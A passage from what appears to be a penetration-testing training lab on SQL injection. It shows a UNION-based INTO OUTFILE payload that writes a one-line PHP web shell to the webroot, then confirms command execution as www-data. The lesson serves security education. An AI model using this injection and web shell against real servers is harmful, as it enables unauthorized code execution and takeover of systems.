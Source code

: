 <div class="card-body">
<p class="mb-0">Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.</p>
</div>
</div>
<hr/>
<h2>Writing a Web Shell</h2>
<p>Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:</p>
<pre><code class="language-php">&lt;?php system($_REQUEST[0]); ?&gt;
</code></pre>
<p>We can reuse our previous <code>UNION</code> injection payload, and change the string to the above, and the file name to <code>shell.php</code>:</p>
<pre><code class="language-sql">cn' union select "",'&lt;?php system($_REQUEST[0]); ?&gt;', "", "" into outfile '/var/www/html/shell.php'-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is an empty table with columns: Port Code, Port City, and Port Volume" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' union select “ “,'&lt;?php system($_REQUEST[0]); ?&gt;', “ “, “ “ into outfile '/var/www/html/shell.php'-- -" src="/storage/modules/33/write_shell.png"/>
<p>Once again, we don't see any errors, which means the file write probably worked.  This can be verified by browsing to the <code>/shell.php</code> file and executing commands via the <code>0</code> parameter, with <code>?0=id</code> in our URL:</p>
<img alt="Text displaying: uid=33(www-data) gid=33(www-data) groups=33(www-data)" class="website-screenshot" data-url="http://SERVER_IP:PORT/shell.php?0=id" src="/storage/modules/33/write_shell_exec_1.png"/>
<p>The output of the <code>id</code> command confirms that we have code execution and are running as the <code>www-data</code> user.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>